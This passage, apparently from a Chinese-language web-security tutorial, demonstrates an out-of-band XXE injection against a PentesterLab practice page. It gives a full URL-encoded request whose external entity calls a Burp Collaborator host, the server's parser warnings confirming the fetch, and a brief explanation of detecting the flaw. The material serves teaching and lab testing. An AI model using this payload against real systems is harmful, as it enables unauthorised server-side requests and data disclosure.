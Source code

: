 ```
GET /xml/example1.php?xml=%3c!DOCTYPE%20test%20[%3c!ENTITY%20%25%20j27pf%20SYSTEM%20%22http%3a%2f%2fdgxknwuc7fqeysa0w53lpzt2wt2mqceb22psdh.burpcollaborator.net%22%3e%25j27pf%3b%20]%3e%3ctest%3ehacker%3c%2ftest%3e HTTP/1.1 
Host: 192.168.1.66 
Accept-Encoding: gzip, deflate 
Accept: */* 
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36 
Connection: close 
Cache-Control: max-age=0 
```

响应如下：

```
    <div class="container"> 
Hello   

Warning: simplexml_load_string(): http://dgxknwuc7fqeysa0w53lpzt2wt2mqceb22psdh.burpcollaborator.net:1: parser error : internal error in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): <html><body>zz4z85vbr0640exz8e6wvvzjlgigrgjfigz</body></html> in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): ^ in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): http://dgxknwuc7fqeysa0w53lpzt2wt2mqceb22psdh.burpcollaborator.net:1: parser error : DOCTYPE improperly terminated in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): <html><body>zz4z85vbr0640exz8e6wvvzjlgigrgjfigz</body></html> in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): ^ in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): http://dgxknwuc7fqeysa0w53lpzt2wt2mqceb22psdh.burpcollaborator.net:1: parser error : Start tag expected, '<' not found in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): <html><body>zz4z85vbr0640exz8e6wvvzjlgigrgjfigz</body></html> in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string():  ^ in /var/www/xml/example1.php on line 4 
      <footer> 
        <p>&amp;copy; PentesterLab 2013</p> 
      </footer> 
```

collaborator 使用一个字符串来识别漏洞。如果我们审查 collaborator 的请求和响应，而不是 HTTP 请求，它是不同的。我们可以看到使用的字符串如下：

![](img/8d0908f5-3088-4842-80fb-ecd98349801d.png)
